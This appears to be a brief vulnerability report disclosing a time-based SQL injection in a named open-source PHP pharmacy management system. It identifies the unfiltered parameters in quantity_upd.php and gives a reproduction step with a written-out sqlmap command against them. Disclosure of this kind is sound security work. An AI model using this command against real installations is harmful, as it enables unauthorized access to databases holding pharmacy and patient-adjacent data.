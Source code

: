 ## SQL Injection Vulnerability in Pharmacy Management System

***Vendor:*** [krishna9772/pharmacy-management-system: pharmacy-management-system php](https://github.com/krishna9772/pharmacy-management-system)

***[Audit]***

The parameters `med_name`, `med_cat` and `ex_date` are not filtered in ***quantity_upd.php***

![image-20250702014804272](./images/image-20250702014804272.png)

Time-based SQL injection available



***[Verify]***

1. Save a post request as 2.txt

![image-20250702015330833](./images/image-20250702015330833.png)

2. Send request with sqlmap

   ```shell
   sqlmap -r 2.txt -p med_name -p med_cat -p ex_date --batch --banner --flush-session
   ```

   

![image-20250702015457416](./images/image-20250702015457416.png)

